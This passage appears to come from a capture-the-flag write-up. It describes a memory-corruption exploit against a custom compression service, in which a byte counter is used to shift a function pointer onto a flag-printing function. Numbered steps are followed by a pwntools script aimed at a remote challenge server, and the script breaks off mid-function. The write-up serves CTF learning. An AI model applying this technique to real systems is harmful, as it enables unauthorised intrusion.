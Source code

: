 The second and successful approach was to use the odd-looking `st_Compress->written_bytes`. This variable is only incremented in `save_to_comp()`, and never used in any other functions. Thus I came up the idea of using this variable to increment the function pointer value of `st_Compress->print_uncomp_fsz` to `cat_flag()`. This is a feasible approach since functions are usually nicely aligned to 0x10, and the function offset was luckily `+0x1c0`.

The exploitation steps are as follows:
1. Save a lot of dummy data to `st_Compress->buf` using `save_zeros_to_comp_Q()`. This is to preallocate a lot of memory to the buffer, ensuring that it is not `free`d & `malloc`ed in later steps which could lead to loss of data.
2. Save `st_Compress->print_uncomp_fsz` to `st_Compress->buf` by `save_cached_qword_to_comp()`.
3. Save the above data from `st_Compress->buf` back to `st_Compress->written_bytes` by `cache_qword()`.
4. Save exactly `0x38` dummy `_QWORD`s to `st_Compress->buf` using `save_cached_qword_to_comp()` This increments `st_Compress->written_bytes` by `0x38 * 0x8 == 0x1c0`.
5. Save `st_Compress->written_bytes` to `st_Compress->buf` by `save_cached_qword_to_comp()`.
6. Save the above data from `st_Compress->buf` back to `st_Compress->print_uncomp_fsz` by `cache_qword()`.
7. Intentionally trigger an error case that returns with `fail_if_zero == 0` as in above code. I used `fm_to_comp_Q()` without supplying data to copy from file.

Below is the exploit code.
```python
from pwn import *

context.log_level = 'debug'

p = remote('110.10.147.111', 4141)

magic = 0x393130322394D3C0
max_buf_offset_Q = 0x1000000000

payload = ''
payload += p64(magic)
payload += p64(max_buf_offset_Q)

"""
0: fm_to_comp_Q
1: cache_qword
2: save_zeros_to_comp_Q
3: save_cached_qword_to_comp
"""

def fm_to_comp_Q(Q_count, fm_data):  # send data to comp buf
    assert(Q_count >= 0 and Q_count <= 0x3f and Q_count * 8 == len(fm_data))
    local_payload = ''
    local_payload += chr((0 << 6) | Q_count)
    local_payload += fm_data
    return local_payload

def cache_qword(cache_idx, buf_inv_offset_Q):  # save data from comp buf to cache
    assert(cache_idx >= 0 and cache_idx <= 0x3f)
    local_payload = ''
    local_payload += chr((1 << 6) | cache_idx)
    local_payload += chr(buf_inv_offset_Q)
    return local_payload

def save_zeros_to_comp_Q(Q_count):  # save zeros to comp buf
    assert(Q_count >= 0 and Q_count <= 0x3f)
    local_payload = ''
    local_payload += chr((2 << 6) | Q_count)
    return local_payload

def save_cached_qword_to_comp(Q_count):  # save cache to comp
    assert(Q_count >= 0 and Q_count <= 0x3f)
```
